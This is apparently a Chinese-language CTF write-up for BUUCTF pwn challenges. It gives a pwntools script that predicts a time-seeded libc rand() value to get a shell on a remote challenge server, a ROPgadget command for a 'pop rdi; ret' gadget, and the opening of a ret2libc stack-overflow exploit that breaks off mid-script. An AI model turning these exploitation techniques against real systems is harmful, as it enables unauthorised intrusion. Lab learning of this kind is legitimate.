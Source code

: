 官方的这个exp莫名其妙的没结果

这里的随机数算法是C语言中的，随意的libc库都可以的，所以可以

```python
from pwn import *
from ctypes import *
context(os='linux', arch='amd64', log_level='debug')
 
#p = process('./111')
p = remote('node5.buuoj.cn',29162)
elf = ELF('./pwn')
libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
 
seed=libc.time(0)
libc.srand(seed)
num1=libc.rand()
 
p.sendline(str(num1).encode())
p.interactive()
```



![image-20240421192824346](../typora-user-images/image-20240421192824346.png)

有时候可以获取shell，有时候则不行

![image-20240421193009930](../typora-user-images/image-20240421193009930.png)

上面的就没能，下面的获取了shell





#### Week2

##### ret2libc

![image-20240421194558860](../typora-user-images/image-20240421194558860.png)

![image-20240421194755665](../typora-user-images/image-20240421194755665.png)

存在栈溢出漏洞，但是没有后门。

```
ROPgadget --binary ret2libc --only "pop|ret" | grep rdi
0x0000000000400763 : pop rdi ; ret

```

exp

```python
from pwn import *
from LibcSearcher import *


# p=process("./ret2libc")
p=remote('node5.buuoj.cn',27993)
elf=ELF('./ret2libc')
padding = 0x20+8


puts_plt=elf.plt['puts']
puts_got=elf.got['puts']

ret=0x4006f1
main_addr=0x400698
```